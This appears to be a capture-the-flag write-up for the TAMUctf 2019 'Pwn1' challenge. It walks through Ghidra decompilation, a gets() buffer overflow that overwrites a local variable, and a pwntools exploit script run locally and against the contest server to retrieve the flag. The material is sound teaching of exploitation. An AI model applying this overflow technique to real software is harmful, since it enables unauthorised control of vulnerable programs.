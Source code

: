 # Pwn1 - TAMUctf 2019
Category: Pwn, Difficulty: easy

## Description

![pwn1.JPG](images/pwn1.JPG)

And attached file [pwn1](pwn1)

## Pwn1 Solution
Let's take a look at the binary:

```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
test
I don't know that! Auuuuuuuugh!
```

Let's look at the ```main``` function using ```Ghidra```:
```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined param_1)

{
  int iVar1;
  char local_43 [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &param_1;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

So we can see the user input buffer ```char local_43 [43];```.

The program ask for user input and compare it using:
```c
...
puts("What... is your name?");
fgets(local_43,0x2b,stdin);
iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
if (iVar1 != 0) {
  puts("I don\'t know that! Auuuuuuuugh!");
                  /* WARNING: Subroutine does not return */
  exit(0);
}
puts("What... is your quest?");
fgets(local_43,0x2b,stdin);
iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
if (iVar1 != 0) {
  puts("I don\'t know that! Auuuuuuuugh!");
                  /* WARNING: Subroutine does not return */
  exit(0);
}
...
```

It's mean, We need to insert the following strings ```Sir Lancelot of Camelot``` , ```To seek the Holy Grail.``` and then we need to the secret:
```c
puts("What... is my secret?");
gets(local_43);
if (local_18 == -0x215eef38) {
  print_flag();
}
else {
  puts("I don\'t know that! Auuuuuuuugh!");
}
```

So we can see the function ```gets(local_43)```.

The function ```gets``` will scan in data until it either gets a newline character.

As a result on paper there is no limit to how much it can scan into memory, Since the are it is scanning into is finite, we will be able to overflow it and start overwriting subsequent things in memory.

We can see the following ```if``` statment after ```gets``` called:
```c
if (local_18 == -0x215eef38) {
    print_flag();
  }
```

So If we can overflow using ```gets``` we can overflow the value of ```local_18``` which located right after ```local_43```:
```c
char local_43 [43];
int local_18;
```

So It's mean our payload should contains ```"A"*43``` to fill ```local_43``` buffer and then we need 4 bytes to write into ```local_18```.

So If we look at the instruction of ```if``` statement using Ghidra we can see:
```
        000108b2 81  7d  f0       CMP        dword ptr [EBP  + local_18 ], 0xdea110c8
```

It's mean ```local_18``` should contains ```0xdea110c8```, So let's write simple python code using ```pwntoold``` to solve it:
```python
from pwn import *

payload = 'A'*43 + '\xc8\x10\xa1\xde\n' # "A" times 43 to local_43 buffer, write 4 bytes 0xdea110c8 to local_18
p = process('./pwn1')

print(p.recv().decode('utf-8'))
p.send('Sir Lancelot of Camelot\n')
print('Sir Lancelot of Camelot')

print(p.recv().decode('utf-8'))
p.send('To seek the Holy Grail.\n')
print('To seek the Holy Grail.')


print(p.recv().decode('utf-8'))
p.send(payload)
print('Sending payload...')

print(p.recv().decode('utf-8'))
```

Run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $python3 pwn1solve.py
[+] Starting local process './pwn1': pid 1983
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?

Sir Lancelot of Camelot
What... is your quest?

To seek the Holy Grail.
What... is my secret?

Sending payload...
Right. Off you go.
```

Great, we can get the flag, Le't do it against the server (Replace on script ```p = process('./pwn1')``` to ```p = remote('pwn.tamuctf.com', 4321)``` and run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/TAMUctf/pwn1]
└──╼ $python3 pwn1solve.py
[+] Starting local process './pwn1': pid 1983
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?

Sir Lancelot of Camelot
What... is your quest?

To seek the Holy Grail.
What... is my secret?

Sending payload...
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
```
